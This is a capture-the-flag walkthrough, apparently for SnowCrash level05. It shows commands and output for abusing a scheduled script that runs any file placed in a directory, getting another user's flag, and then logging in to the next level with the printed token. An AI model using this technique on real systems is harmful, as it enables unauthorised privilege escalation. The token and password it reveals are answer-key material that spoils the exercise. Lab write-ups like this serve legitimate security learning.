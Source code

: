## 1 Finding Executable Files: 
We search for files owned by flag05 to identify any potentially exploitable scripts:

``` bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

```
## 2 Examining the openarenaserver Script:

``` bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done

```

This script iterates over files in the /opt/openarenaserver/ directory, executes them with a time limit, and then deletes them.

## 3 Create the Command File

We create a new file in /opt/openarenaserver/ that will execute the getflag command and redirect its output to a temporary file:

``` bash
level05@SnowCrash:/tmp$ echo "/bin/getflag > /tmp/my_flag2" > /opt/openarenaserver/retrieve_flag
```

After creating the command file, we need to ensure that it gets executed. Since the openarenaserver script runs automatically, we wait for it to execute the files in the directory.

## 4 Check the Output

After a few minutes, we check the contents of the output file:

``` bash
level05@SnowCrash:/tmp$ cat /tmp/my_flag2
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## 5 Enter level06
``` bash
level05@SnowCrash:~$ su level06
Password: viuaaale9huek52boumoomioc
```
